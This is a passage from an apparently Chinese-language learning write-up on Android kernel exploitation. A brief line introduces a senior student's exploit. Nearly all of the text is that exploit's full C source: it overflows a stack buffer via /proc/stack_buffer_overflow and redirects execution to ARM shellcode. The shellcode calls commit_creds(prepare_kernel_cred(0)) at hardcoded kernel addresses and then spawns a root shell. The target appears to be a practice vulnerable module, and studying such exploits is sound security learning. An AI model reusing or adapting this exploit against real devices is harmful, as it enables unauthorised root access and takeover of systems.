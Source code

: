 接下来学长给出了他的 exp，但是学长的 exp 在我的设备跑不起来，这当然有环境不同的原因，我们可以看一下他的 exp：

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>
#define MAX 64
int open_file(void)
{
    int fd = open("/proc/stack_buffer_overflow", O_RDWR);
    if (fd == -1)
        err(1, "open");
    return fd;
}
void payload(void)
{
    printf("[+] enjoy the shell\n");
    execl("/system/bin/sh", "sh", NULL);
}
extern uint32_t shellCode[];
asm(
    "    .text\n"
    "    .align 2\n"
    "    .code 32\n"
    "    .globl shellCode\n\t"
    "shellCode:\n\t"
    // commit_creds(prepare_kernel_cred(0));
    // -> get root
    "LDR     R3, =0xc0039d34\n\t" //prepare_kernel_cred addr
    "MOV     R0, #0\n\t"
    "BLX     R3\n\t"
    "LDR     R3, =0xc0039834\n\t" //commit_creds addr
    "BLX     R3\n\t"
    "mov r3, #0x40000010\n\t"
    "MSR    CPSR_c,R3\n\t"
    "LDR     R3, =0x879c\n\t" // payload function addr
    "BLX     R3\n\t");
void trigger_vuln(int fd)
{
#define MAX_PAYLOAD (MAX + 2 * sizeof(void *))
    char buf[MAX_PAYLOAD];
    memset(buf, 'A', sizeof(buf));
    void *pc = buf + MAX + 1 * sizeof(void *);
    printf("shellcdoe addr: %p\n", shellCode);
    printf("payload:%p\n", payload);
    *(void **)pc = (void *)shellCode; //ret addr
    /* Kaboom! */
    write(fd, buf, sizeof(buf));
}
int main(void)
{
    int fd;
    fd = open_file();
    trigger_vuln(fd);
    payload();
    close(fd);
}
```
